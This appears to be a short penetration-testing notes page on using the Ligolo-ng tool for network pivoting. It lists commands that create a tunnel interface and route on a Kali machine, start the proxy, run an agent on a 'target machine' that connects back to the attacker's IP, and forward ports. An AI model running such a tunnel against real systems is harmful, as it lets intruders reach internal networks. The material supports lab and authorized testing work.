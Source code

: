 # Ligolo

***

https://github.com/nicocha30/ligolo-ng

```bash
sudo ip tuntap add user $USER mode tun ligolo 
sudo ip link set ligolo up
sudo ip route add 172.16.0.0/16 dev ligolo
```

## Proxy (Kali)

```bash
./proxy -selfcert
```

## Agent (target machine)

```bash
./agent -connect 10.10.15.103:11601 -ignore-cert
```

## Proxy (Kali)

```bash
session
start
```

```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_list
```

https://excalidraw.com/#json=5jBoX9n28pzayCABeqqL2,IYDDVuJPlzLfXUHNpUx\_vg



<figure><img src="../.gitbook/assets/Pasted image 20231124175800.png" alt=""><figcaption></figcaption></figure>
